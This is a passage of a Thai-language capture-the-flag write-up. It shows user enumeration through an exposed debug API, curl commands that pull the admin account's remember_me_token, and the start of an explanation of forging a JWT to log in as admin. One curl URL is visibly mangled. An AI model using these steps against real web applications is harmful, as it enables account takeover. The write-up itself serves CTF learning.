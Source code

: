 สังเกตจาก error message ถ้าไม่มีช่องทางอื่นในการหา username ของ admin เราอาจสามารถใช้ช่องทางนี้ในการ brute force เพื่อหา valid username ได้

ผมลองย้อนกลับมาดูฟังก์ชันสุดท้ายในไฟล์ `script.js` คือ `debugFetchAllUsers()`

```javascript
...SNIP...

function debugFetchAllUsers() {
  // admin.php
  fetch('api.php?action=get_alluser')
    .then(response => response.json())
    .then(data => {
      console.log('Debug get_alluser result:', data);
    })
    .catch(err => {
      console.error('Error in debugFetchAllUsers:', err);
    });
}
```

ในฟังก์ชันนี้มี comment ที่อ้างถึงพาธ `/admin.php` ที่เราหาเจอด้วย gobuster ก่อนหน้านี้แล้ว และเมื่อลองเรียก endpoint ที่ระบุไว้ในฟังก์ชันด้วย cURL ปรากฏว่าได้รายชื่อ user ออกมา 2 account

```shell-session
$ curl -H 'Cookie: PHPSESSID=ba2b06cda26d1e0cd7e52e0b1e0cc4bf' 'https://web1.ctf.p7z.pw/api.php?action=ge
t_alluser'
["test","admin-uat"]
```

เมื่อลองใช้ cURL โดยเปลี่ยน parameter `user` ของ endpoint ในฟังก์ชัน `debugFetchUserTest()` เป็น "admin-uat" พบว่าได้ข้อมูล JSON ของ admin ออกมา

```shell-session
$ curl -H 'Cookie: PHPSESSID=ba2b06cda26d1e0cd7e52e0b1e0cc4bf' 'https://web1.ctf.p7z.pwuserinfo&user=admin-uat'
{"username":"admin-uat","role":"admin","remember_me_token":"73eb7063-f8c3-4e50-bea2-07c05681aa92","status":"Gang boss, oversees all operations."}
```

> ตอนนี้เราได้ `remember_me_token` ของ admin user แล้ว ขั้นตอนต่อไปคือหาทางแก้ไขค่า token ใน payload ของ JWT ให้เป็นของ "admin-uat" เพื่อทำให้แอปพลิเคชันล็อกอินให้เราเป็น admin โดยอัตโนมัติ

## Access as "admin-uat"

JWT หรือ JSON Web Token เป็นมาตรฐานในการแลกเปลี่ยนข้อมูลโดยใช้ JSON object นิยมใช้ในเว็บแอปพลิเคชันเพื่อทำ authentication และ authorization

โครงสร้างของ JWT โดยปกติจะแบ่งออกเป็น 3 ส่วน คือ

* **header** เก็บประเภทของ token และ algorithm ที่ใช้ในการ signing
* **payload** เก็บข้อมูลของผู้ใช้หรือแอปพลิเคชัน
* **signature** เก็บ digital signature เพื่อไว้ใช้ตรวจสอบความถูกต้องของ header และ payload

การคำนวณ signature ของ JWT ทำได้โดยนำ header และ payload มา encode เป็น Base64 แล้วเชื่อมกันด้วย `.` จากนั้นนำมาคำนวณค่า HMAC ตาม algorithm ที่กำหนดไว้ใน header โดยใส่ secret ที่เรากำหนดได้เอง ดังนี้
